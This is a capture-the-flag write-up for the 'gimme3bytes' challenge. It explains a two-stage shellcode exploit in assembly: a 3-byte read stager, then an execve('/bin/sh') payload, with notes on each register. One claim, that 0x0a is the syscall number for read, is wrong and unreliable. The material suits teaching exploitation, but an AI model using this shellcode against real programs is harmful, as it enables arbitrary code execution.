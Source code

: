 # gimme3bytes

It reads 3 bytes from stdin and executes them as shellcode.

The idea is to run a multi-stage shellcode, where the first stage is a small shellcode that call the syscall `read` to read the second stage from stdin. The second stage is the actual shellcode that will be executed.

## First Stage (3 bytes)

```c
pop rdx
syscall
```

- RAX: already set to 0x0a (syscall number for `read`)
- RDI: already set to 0x0 (stdin)
- RSI: already set to the buffer address
- RDX: set using `pop rdx`. Why so? Because at that point the stack contains a large number that can be used as a buffer size

## Second Stage (25 bytes)

Main idea: `execve(RDI -> "/bin/sh", RSI = argv -> NULL, RDX = envp -> NULL)`

```c
nop
nop
nop
mov rdi, rsi
add rdi, 0x19
mov rax, 0x3b
xor rsi, rsi
xor rdx, rdx
syscall
.string "/bin/sh"
```

Note: The first three `nop`s are there since the RIP after the first stage is set at the end of the buffer and cannot be changed. With the three `nop`s we push the second stage three bytes forward right where the RIP will be set and then `mov rdi, rsi` will be the first instruction executed.

- RDI: set to the buffer address + 25, to point to the string "/bin/sh"
- RAX: set to 0x3b (syscall number for `execve`)
- RSI: set to 0x0 (NULL)
- RDX: set to 0x0 (NULL)

The complete exploit is in [script.py](script.py).
